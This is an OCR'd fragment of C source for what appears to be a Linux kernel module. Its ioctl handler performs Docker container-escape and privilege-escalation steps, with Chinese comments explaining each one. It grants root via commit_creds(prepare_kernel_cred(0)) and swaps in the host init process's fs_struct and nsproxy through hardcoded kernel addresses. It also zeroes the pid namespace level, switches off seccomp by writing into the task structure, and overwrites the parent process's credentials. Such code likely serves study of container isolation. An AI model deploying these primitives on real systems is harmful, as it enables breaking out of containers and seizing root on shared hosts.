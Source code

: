         init_ = task_;
        while (pid_ != 1) {
            init_ = *(struct task_struct **)((char*)init_ + real_parent_off_);
            pid_ = *(uint32_t *)((char*)init_ + pid__off);
        }
    
        uint64_t(*copy_fs_struct)(uint64_t) = 0xFFFFFFFF813D2F20;
        uint64_t g = (*copy_fs_struct)(*(uint64_t*)((char*)init_ + fs_offset_));
        *(uint64_t *)((char*)task_ + fs_offset_) = g;
        
        return 0;
    }
    
    static ssize_t sw_ns_(void){
        size_t(*find_task_by_vpid)(int) = 0xFFFFFFFF810E6500;
        size_t g = (*find_task_by_vpid)(1);
        
        size_t init_nsproxy = 0xFFFFFFFF82E8B000;
        size_t(*switch_task_ns)(size_t, size_t) = 0xFFFFFFFF810EECB0;
        (*switch_task_ns)(g, init_nsproxy); 
        
        return 0;
    }
    
    static ssize_t change_parent_cred_(void){
        size_t cred_addr = prepare_kernel_cred(0);
        current->real_parent->real_cred = cred_addr;
        current->real_parent->cred = cred_addr;
        return 0;
    }
    
    long helloioctl(struct file *proc_file, unsigned int cmd, unsigned long arg){
        printk(":into ioctl!\n");
        
        switch(cmd){
            case 0x1000:
                commit_creds(prepare_kernel_cred(0));  // 更改当前进程 cred
                break;
            case 0x1001:
                set_fs_struct_();  // 更改当前进程 fs_struct，使其指向 host pid-1 的 fs_struct
                break;
            case 0x1002:
                sw_ns_();  // 更改 Docker pid-1 的 nsproxy 指向 init_nsproxy
                break;
            case 0x1003:
                current->thread_pid->level = 0;  // 更改当前进程 pid namespace 的 level 值
                break;
            case 0x1004:
                *(unsigned long*)((char*)current+8) = 0;  // 更改当前进程 seccomp 的开关 
                break;
            case 0x1005:
                change_parent_cred_();  // 更改父进程的 cred
                break;
            default:
                break;
        }
        return 0;
    }
    